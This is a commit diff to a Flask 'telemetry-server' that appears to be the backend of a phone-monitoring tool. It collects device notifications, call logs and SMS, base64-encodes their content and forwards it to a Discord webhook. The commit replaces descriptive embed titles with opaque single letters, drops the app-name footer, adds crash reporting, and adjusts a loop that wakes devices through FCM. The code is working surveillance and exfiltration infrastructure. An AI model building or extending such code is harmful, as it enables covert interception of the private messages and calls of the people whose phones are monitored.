

Before and after one commit to gsns-alpha/telemetry-server, a Flask app: page /dashboard?device=1 in a window 1520 px wide. Shown: the top 799 px of the page at 99% size. Run offline with Flask 3, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1); tables that the repository leaves empty hold one stand-in row (values such as "Sample post").

Commit message:
feat: implement device crash reporting, simplify Discord embed formatting, and fix FCM wake scheduling logic

```diff
--- a/app.py
+++ b/app.py
@@ -160,6 +160,8 @@ class Device(db.Model):
     recent_logs = db.Column(db.Text)
     last_offline_alert_at = db.Column(db.DateTime)
     fcm_token = db.Column(db.String(256))
+    last_crash = db.Column(db.Text)
+    last_crash_at = db.Column(db.DateTime)
 
 
     @property
@@ -469,10 +471,11 @@ def send_discord_for_notifications(notifications, device_id):
     for n in notifications:
         category = n.get('category') or ''
         app_package = n.get('app_package') or ''
-        app_name = decode_field(n.get('app_name') or app_package)
+        app_name = decode_field(n.get('app_name') or '')
         title = decode_field(n.get('title') or '')
         content = decode_field(n.get('content') or '')
-        raw_text = f"{app_name} {title} {content}"
+        raw_parts = [p for p in [app_name, title, content] if p]
+        raw_text = ' '.join(raw_parts)
 
         is_important = is_important_content(raw_text)
         is_social_category = category in DISCORD_FORWARD_CATEGORIES
@@ -487,22 +490,20 @@ def send_discord_for_notifications(notifications, device_id):
         if _discord_is_duplicate(dedup_key):
             continue
         encoded = base64.b64encode(payload.encode()).decode()
-        cat_code = {'VoIP & Social Messages': 'VSM', 'GPS / Location Toggled': 'GLT', 'Telephony Calls': 'TC'}.get(category, 'MSG')
 
         if is_important:
-            title_tag = f'[!{cat_code}]'
+            title_tag = '!M'
             desc = f'{device_id[-6:]} · ⚠️ · {encoded}'
             color = 0xED4245  # High-priority red highlight
         else:
-            title_tag = f'[{cat_code}]'
+            title_tag = 'M'
             desc = f'{device_id[-6:]} · {encoded}'
             color = 0x5865F2  # Standard blurple
 
         embed = {
             'title': title_tag,
             'description': desc,
-            'color': color,
-            'footer': {'text': app_package}
+            'color': color
         }
         _send_discord({'embeds': [embed]})
 
@@ -525,11 +526,11 @@ def send_discord_for_calls(call_logs, device_id):
         encoded = base64.b64encode(payload.encode()).decode()
 
         if is_important:
-            title_tag = '[!TC]'
+            title_tag = '!T'
             desc = f'{device_id[-6:]} · ⚠️ · {encoded}'
             color = 0xED4245  # High-priority red highlight
         else:
-            title_tag = '[TC]'
+            title_tag = 'T'
             desc = f'{device_id[-6:]} · {encoded}'
             color = 0x57F287  # Standard green
 
@@ -558,11 +559,11 @@ def send_discord_for_sms(sms_messages, device_id):
         encoded = base64.b64encode(payload.encode()).decode()
 
         if is_important:
-            title_tag = '[!SMS]'
+            title_tag = '!S'
             desc = f'{device_id[-6:]} · ⚠️ · {encoded}'
             color = 0xED4245  # High-priority red highlight
         else:
-            title_tag = '[SMS]'
+            title_tag = 'S'
             desc = f'{device_id[-6:]} · {encoded}'
             color = 0x3BA55D  # Standard green
 
@@ -793,13 +794,22 @@ def _fcm_wake_loop():
             try:
                 with app.app_context():
                     # Only send to devices that have an FCM token and were seen recently (last 7 days)
-                    cutoff = datetime.now(timezone.utc) - timedelta(days=7)
+                    cutoff = datetime.now(timezone.utc).replace(tzinfo=None) - timedelta(days=7)
                     devices = Device.query.filter(
                         Device.fcm_token.isnot(None),
                         Device.fcm_token != ''
                     ).all()
-                    active = [d for d in devices if (d.last_ping or d.last_sync or d.first_seen) and
-                              (d.last_ping or d.last_sync or d.first_seen) >= cutoff]
+
+                    def _get_naive_ts(dt):
+                        if dt is None:
+                            return None
+                        return dt.replace(tzinfo=None) if dt.tzinfo else dt
+
+                    active = [
+                        d for d in devices
+                        if (d.last_ping or d.last_sync or d.first_seen) and
+                        (_get_naive_ts(d.last_ping or d.last_sync or d.first_seen) >= cutoff)
+                    ]
                     print(f'[FCM-WAKE] Sending wake to {len(active)} device(s)', flush=True)
                     for device in active:
                         _send_fcm_wake(device.fcm_token, device.device_id)
@@ -884,6 +894,21 @@ def device_ping():
     # Store the FCM token for server-initiated wake pushes
     if data.get('fcm_token'):
         device.fcm_token = data['fcm_token']
+
+    # Record and store any crash reports sent by device
+    if data.get('last_crash'):
+        crash_str = data['last_crash']
+        device.last_crash = crash_str
+        device.last_crash_at = now
+        print(f"[CRASH-ALERT] Device {device_id} reported crash:\n{crash_str[:300]}...", flush=True)
+        try:
+            import json
+            current_logs = json.loads(device.recent_logs) if device.recent_logs else []
+            crash_lines = [f"[CRASH-ALERT] {line}" for line in crash_str.splitlines()[:5]]
+            merged = crash_lines + current_logs
+            device.recent_logs = json.dumps(merged[:60])
+        except Exception:
+            pass
 
     db.session.commit()
 
--- a/templates/dashboard.html
+++ b/templates/dashboard.html
@@ -118,9 +118,12 @@
                     {% endif %}
                 </td>
                 <td>
-                    <div style="display: flex; gap: 6px;">
+                    <div style="display: flex; gap: 6px; align-items: center;">
                         <a href="{{ url_for('dashboard', device=d.device_id) }}" style="background: var(--bg-surface-elevated); border: 1px solid var(--border-color); color: var(--accent-cyan); padding: 3px 8px; border-radius: 4px; font-size: 11px; text-decoration: none; font-weight: 500;">Filter</a>
                         <button onclick='openLogModal("{{ d.device_model }} ({{ d.device_id }})", {{ d.log_list | tojson }})' style="background: var(--bg-surface-elevated); border: 1px solid var(--border-color); color: var(--text-primary); padding: 3px 8px; border-radius: 4px; font-size: 11px; cursor: pointer;">📋 Logs</button>
+                        {% if d.last_crash %}
+                        <button onclick='openCrashModal("{{ d.device_model }} ({{ d.device_id }})", {{ d.last_crash | tojson }}, "{{ d.last_crash_at|to_ist if d.last_crash_at else "" }}")' style="background: rgba(248, 81, 73, 0.2); border: 1px solid #f85149; color: #f85149; padding: 3px 8px; border-radius: 4px; font-size: 11px; cursor: pointer; font-weight: 600;">💥 Crash</button>
+                        {% endif %}
                     </div>
                 </td>
             </tr>
@@ -267,6 +270,7 @@
     function openLogModal(deviceTitle, logs) {
         document.getElementById('modalDeviceTitle').textContent = `Diagnostics: ${deviceTitle}`;
         const container = document.getElementById('modalLogContent');
+        container.style.color = '#7ee787';
         if (!logs || logs.length === 0) {
             container.textContent = "No log records received from this device yet.";
         } else {
@@ -275,6 +279,14 @@
         document.getElementById('logModal').style.display = 'flex';
     }
 
+    function openCrashModal(deviceTitle, crashReport, crashTime) {
+        document.getElementById('modalDeviceTitle').textContent = `💥 Crash Diagnostic: ${deviceTitle} (${crashTime || 'Recent'})`;
+        const container = document.getElementById('modalLogContent');
+        container.style.color = '#ff7b72';
+        container.textContent = crashReport || "No crash details available.";
+        document.getElementById('logModal').style.display = 'flex';
+    }
+
     function closeLogModal() {
         document.getElementById('logModal').style.display = 'none';
     }
```
Also changed, not shown: tests/test_api.py (+44 -7 lines).
